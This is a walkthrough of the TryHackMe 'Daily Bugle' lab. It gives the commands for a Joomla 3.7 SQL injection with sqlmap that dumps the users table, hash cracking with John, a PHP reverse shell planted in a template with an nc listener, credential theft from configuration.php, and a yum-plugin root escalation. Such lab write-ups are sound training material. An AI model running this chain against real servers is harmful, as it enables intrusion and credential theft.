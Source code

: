 ```yaml
---
slug: daily-bugle-walkthrough
title: TryHackMe - Daily Bugle - Walkthrough
authors: bw
tags: [learning, daily-bugle, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Daily Bugle][daily-room]. Let’s get started!

# Deploy
Let’s start off with scanning the box! `nmap -sC -sV -oN nmap.txt <machine_ip>`

![d1](/static/img/thm/dailybugle/d1.png)

It looks like we have a webserver managed by Joomla, with a MySQL DB on the backend. Let’s visit the website!

![d2](/static/img/thm/dailybugle/d2.webp)

There is our first answer!

# Obtain user and root
From the nmap scan, we can see that it found some pages. However, before we do that, since we know it is **Joomla** let’s scan the site with `joomscan`. This can be found [here][joomscan]. This is a tool that will scan Joomla and tell is info and possible vulnerabilities.

We will run it with the following command: `perl joomscan.pl -u http://<machine_ip>`

![d3](/static/img/thm/dailybugle/d3.png)

The scan came back with a version number! After looking through the info, there isn’t much else there that we didn’t already know. Let’s search for vulnerabilities in that version.

`searchsploit joomla 3.7`

We see a few options. Let’s go with `42033`. This can be found [here][exdb]. The exploit suggests that the following URL is vulnerable:

`http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

Let’s navigate to that URL and check on our server.

![d4](/static/img/thm/dailybugle/d4.webp)

If you see on the bottom, we get a SQL error from the DB server. This means it is vulnerable! Let’s use SQLMap to exploit this (syntax can be found in exploit information)!

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Now that we have the various database names, let’s dump out the credentials. We want the `joomla` database.

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

![d5](/static/img/thm/dailybugle/d5.webp)

We have the hash! Let’s crack it with **John the Ripper**. Put the hash into a file. Then run `john` against a wordlist.

`john hash.txt --wordlist=/home/bw/PenTesting/Tools/SecLists/Passwords/Common-Credentials/rockyou.txt`

We cracked the password!

![d6](/static/img/thm/dailybugle/d6.png)

Login to Joomla. Let’s see what our permissions are. Navigate to **Users** and you can see that we have **Super User** permissions. Let’s edit a template to give us a shell! Navigate to **Templates > Templates > Protostar Details and Files > index.php**

Now add our reverse shell code (This can be found [here][php]):

![d7](/static/img/thm/dailybugle/d7.png)

Save the template. Start a `netcat` listener on the port specified: `nc -lnvp 1234`

Now select **Template Preview** and you should see a shell come up! We are the apache user, so we need to find user credentials to ssh in with.

Let’s `ls /home` to find a username. Then navigate to `/var/www/html` so we can get credentials.

Here we find the `configuration.php` file. We can gather credentials here:

![d8](/static/img/thm/dailybugle/d8.png)

SSH into the box and find the user flag!

![d9](/static/img/thm/dailybugle/d9.png)

Now we need to do some privilege escalation. We need to utilize `yum` for our privesc exploit. Let’s look at [GTFObins][gtfo]. Search for `yum`. Let’s use the 2nd option.

```bash
TF=$(mktemp -d)

cat >$TF/x<<EOF

[main]

plugins=1

pluginpath=$TF

pluginconfpath=$TF

EOF


cat >$TF/y.conf<<EOF

[main]

enabled=1

EOF


cat >$TF/y.py<<EOF

import os

import yum

from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE requires_api_version='2.1'

def init_hook(conduit):

   
os.execl('/bin/sh','/bin/sh')

EOF
```

`sudo yum -c $TF/x --enableplugin=y`

Now we can run: `whoami`. We are root!!!

Let’s get the flag!

![d10](/static/img/thm/dailybugle/d10.png)

# Review
Wow! This was definitely a more difficult box than I’ve done so far on THM. It was such a fun challenge and I’m glad that it put up a fight! I learned some new tools like joomscan and utilized the tried and true PHP reverse shell. Overall, this was a great room to challenge yourself!

# References
[TryHackMe][thm] | [Daily Bugle Room][daily-room] | [Joomscan][joomscan] | [Exploit-DB: 42033][exdb] | [PHP Reverse Shell][php] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[daily-room]: https://tryhackme.com/r/room/dailybugle
[joomscan]: https://github.com/OWASP/joomscan
[exdb]: https://www.exploit-db.com/exploits/42033
[php]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io